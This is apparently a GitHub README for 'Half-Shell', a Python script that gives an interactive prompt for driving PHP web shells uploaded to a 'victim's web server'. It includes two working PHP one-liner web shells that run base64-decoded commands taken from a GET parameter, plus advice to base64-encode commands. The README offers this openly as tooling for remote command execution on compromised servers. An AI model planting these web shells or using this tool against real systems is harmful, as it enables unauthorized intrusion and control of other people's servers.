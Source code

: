 # Half-Shell

Half-Shell is a simple python script to give the user a native looking prompt for communicating with uploaded $_GET php scripts.

### Prerequisites

Uses python's requests module. If you're not familiar with requests, it's more lightweight and usable compared to urllib or urllib2. More about requests can be found here: https://2.python-requests.org//en/master/

```
pip install requests
```

## Additional Info
![HELP](https://github.com/Mr-BeardFace/Images/blob/master/halfshell1.PNG)

Once a php $_GET has been uploaded onto a victim's web server, half-shell can be used to interact with the php shell that feels seamless to the user. Lame man's terms... you won't have to copy/paste commands ever 10 seconds.

Using half-shell is pretty straight forward. Enter in the url, including the location of your cmd (or otherwise) variable. If you are base64 encoding your commands (which I suggest you do) just add 'base64' to the end of the command. Other encodings are currently being looked at and could possibly be added later.

For base64 encoded commands, the below are the best php one-liners to use. Others tend to not echo correctly, or do not return any data.

```
<?php system(base64_decode($_GET['cmd']));?>
<?php echo shell_exec(base64_decode($_GET['cmd']));?>
```

